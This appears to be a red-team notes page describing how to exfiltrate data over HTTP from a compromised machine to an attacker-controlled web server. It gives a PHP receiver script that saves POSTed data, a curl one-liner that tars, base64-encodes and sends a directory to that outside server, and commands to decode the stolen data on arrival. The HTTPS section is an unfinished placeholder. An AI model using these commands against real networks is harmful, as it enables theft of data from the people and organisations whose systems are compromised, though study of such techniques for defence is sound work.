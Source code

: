 # Data Exfiltration Over HTTP and HTTPS

Real world scenario is that an attacker controls a cloud web server an agent or command is then executed from inside the network with a compromised machine to send the data to the webserver that is outside the compromised network. Then the attacker can just log in to a web server to get the data.



## HTTP

1.  An attacker create a page to be a data handler on the web server.
2.  A C2 agent or an attacker sends the data. 
3.  The webserver receives and stores the data.
4.  Login to webserver and get the data.

#### PHP version:#
bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Then from the machine containing the data to be exfiltrated

```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
```

From the webserver

```bash
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

## HTTPS 

Incoming later today.


## Notes
The 'Black Hat Python Ed.2' book contains a API exfiltration script to pastebin from a Windows Machine


## References